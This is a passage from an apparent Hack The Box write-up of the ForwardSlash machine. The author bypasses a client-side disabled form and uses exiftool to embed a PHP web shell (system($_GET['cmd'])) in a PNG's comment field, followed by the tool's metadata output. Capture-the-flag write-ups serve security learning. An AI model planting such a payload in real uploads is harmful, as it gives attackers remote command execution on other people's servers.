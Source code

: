 ![message](../../../../assets/images/hackthebox/forwardslash/4_message.png)

The only way so far to interact with the website is to change my profile picture, but the form is disabled.

![profilepicture.php](../../../../assets/images/hackthebox/forwardslash/5_change_profilepicture.png)

Maybe it's only disabled on the client site, let's try and remove the disabled attribute.

![disabled](../../../../assets/images/hackthebox/forwardslash/6_disabled.png)

From other machines I had the feeling that only urls are allowed that refer to an image.
So I download the defaced.png image from the startpage and added php code to the comment field.

```bash
kali@kali:~$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' defaced.png
kali@kali:~$ exiftool defaced.png 
ExifTool Version Number         : 12.01
File Name                       : defaced.png
Directory                       : .
File Size                       : 69 kB
File Modification Date/Time     : 2020:06:02 12:19:47-04:00
File Access Date/Time           : 2020:06:02 12:22:39-04:00
File Inode Change Date/Time     : 2020:06:02 12:20:13-04:00
File Permissions                : rwxrwx---
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 841
Image Height                    : 1287
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Exif Byte Order                 : Little-endian (Intel, II)
Bits Per Sample                 : 8 8 8
X Resolution                    : 42.98
Y Resolution                    : 42.98
Resolution Unit                 : cm
Software                        : GIMP 2.10.8
Photometric Interpretation      : YCbCr
Samples Per Pixel               : 3
Thumbnail Offset                : 272
Thumbnail Length                : 4866
XMP Toolkit                     : XMP Core 4.4.0-Exiv2
Document ID                     : adobe:docid:photoshop:7a6401f7-7fb4-11e9-aa40-9e2a0a332d20
Instance ID                     : xmp.iid:1f4cc0e1-911f-4cc7-96f6-9da5c821ac25
Original Document ID            : xmp.did:6afb364d-9354-784d-97b7-e4f0a63a04dd
Api                             : 2.0
Platform                        : Linux
Time Stamp                      : 1558956857985221
Version                         : 2.10.8
Format                          : image/png
Color Space                     : Uncalibrated
Exif Image Width                : 841
Exif Image Height               : 1287
Color Mode                      : RGB
Document Ancestors              : 6A37182BFC060F417EEAB2E554A83575, CB31EBE0CDC324AFB70E49F7748FD4C8
Orientation                     : Horizontal (normal)
Create Date                     : 2019:05:26 13:39:06+01:00
Creator Tool                    : GIMP 2.10
Metadata Date                   : 2019:05:26 13:48:22+01:00
Location Created                : 
```
